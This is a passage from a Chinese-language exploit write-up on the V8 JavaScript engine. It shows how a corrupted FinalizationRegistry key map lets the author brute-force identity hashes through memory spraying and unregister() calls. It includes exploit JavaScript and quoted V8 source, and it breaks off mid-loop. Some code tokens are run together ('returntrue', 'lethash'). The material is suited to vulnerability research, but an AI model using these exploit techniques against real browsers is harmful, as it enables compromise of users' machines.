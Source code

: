   
  
我们从损坏的键/值对开始，key_map将其全部初始化为undefined（V8 的标记表示中为 0x11）。这实际上模拟了内存中一个空的哈希映射。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadW4c5qzY80wNzNYbcibsDERQAcpWqY9dhbRJkYMoibZYj2ENYIxoxWqk15pl4vNbUT3jRSodR0x7kQ/640?wx_fmt=png&from=appmsg "")  
  
然而，要对这个畸形的 Map 进行任何有用的操作register()，unregister()我们需要通过它们的哈希键与条目进行交互。挑战在于这些哈希值是由 V8 随机生成的（使用GenerateIdentityHash），所以我们事先无法知道它们。  
  
但这里有个诀窍：我们不需要猜测确切的哈希值，我们可以简单地强行破解它。  
  
暴力破解有效哈希  
  
unreg_token我们的目标是恢复在调用 时赋给 的有效哈希值registry.register()。由于我们无法直接访问该哈希值（它存储在 V8 内部），因此我们将对其进行暴力破解。  
  
首先，我们生成大量对象（例如 1000 个），并期望每个对象都被分配一个不同的身份哈希值。虽然可能会发生冲突，但这对于我们的目的来说没有问题：  
  

```
// Generate 1000 empty object with hashes
let reg = new FinalizationRegistry(() => { });
let tokens_with_hash = [];
for (let i = 0; i < 1000; i++) {
  tokens_with_hash.push({});
  reg.register(tokens_with_hash[i], undefined, tokens_with_hash[i]);
}
```

  
  
现在， 中的每个对象tokens_with_hash都有一个唯一的（或几乎唯一的）哈希值。当我们unregister()使用给定的 token 调用时，V8 会在内部尝试使用 在哈希映射中查找关联的条目Object::GetHash(token)。如果找到匹配项，它会将键替换为THE_HOLE：  
  

```
bool JSFinalizationRegistry::RemoveUnregisterToken(/*...*/) {
  //...
  key_map->ClearEntry(entry);
  //...
}

void Dictionary<Derived, Shape>::ClearEntry(InternalIndex entry) {
  Tagged<Object> the_hole = GetReadOnlyRoots().the_hole_value();
  PropertyDetails details = PropertyDetails::Empty();
  Cast<Derived>(this)->SetEntry(entry, the_hole, the_hole, details);
}
```

  
  
因此，我们通过调用尝试每个令牌，unregister()直到其中一个令牌修改了损坏的内存。这就是我们检测哈希匹配的方法：  
  

```
/** Returns trueif the p.spray has been overwritten */
function sprayIsCorrupted(hash) {
for (let i = 0; i < p.spray.length; i++) {
    const expected_value = uint64ToFloat((BigInt(hash) << 1n) | (0x11n << 32n))
    if (p.spray[i] != expected_value) {
      returntrue;
    }
  }
returnfalse;
}

let valid_hash = -1;

for (lethash = 1; hash < 0x10000; hash++) {
for (let i = 0; i < p.spray.length; i++) {
    p.spray[i] = uint64ToFloat((BigInt(hash) << 1n) | (0x11n << 32n));
  }
for (let i = 0; i < tokens_with_hash.length; i++) {
    p.registry.unregister(tokens_with_hash[i]);
```